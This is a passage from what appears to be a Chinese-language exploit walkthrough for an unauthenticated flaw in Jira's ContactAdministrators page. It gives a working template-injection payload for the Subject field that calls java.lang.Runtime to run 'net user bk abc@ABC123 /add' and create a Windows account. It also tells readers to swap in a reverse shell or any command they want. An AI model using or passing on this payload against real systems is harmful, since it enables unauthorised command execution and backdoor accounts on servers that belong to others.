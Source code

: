 **4.未登陆状态下触发漏洞**

访问

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

![image](../img/ccef8761cb4990be8386fef1880eec20.png)

在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor() 
```

![image](../img/7025b34058ceff56a1b353b70300944e.png)
